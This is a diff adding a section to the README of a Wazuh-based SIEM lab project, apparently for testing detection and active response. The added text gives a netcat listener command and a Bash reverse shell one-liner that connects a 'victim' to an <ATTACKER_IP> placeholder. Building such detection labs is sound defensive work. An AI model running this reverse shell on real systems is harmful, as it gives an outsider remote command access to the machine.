

Before and after one commit to sefatuter/acme-siem, a Markdown page: README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -758,6 +758,19 @@ Restart the agent:
 
 Control the audit logs from dashboard: Wazuh Explore -> Discover, Add Filter -> ```location: /var/log/audit/audit.log```
 
+**Reverse Shell and Active Response:**
+
+Listen on Attacker Machine:
+```bash
+sudo apt install netcat
+nc -nlvp 4444
+```
+
+On Victim, It opens a reverse shell by making Bash connect to your listener and sending all input/output over that TCP connection:
+```
+bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1
+```
+
 
 Chain rule and groups
 ```xml
````
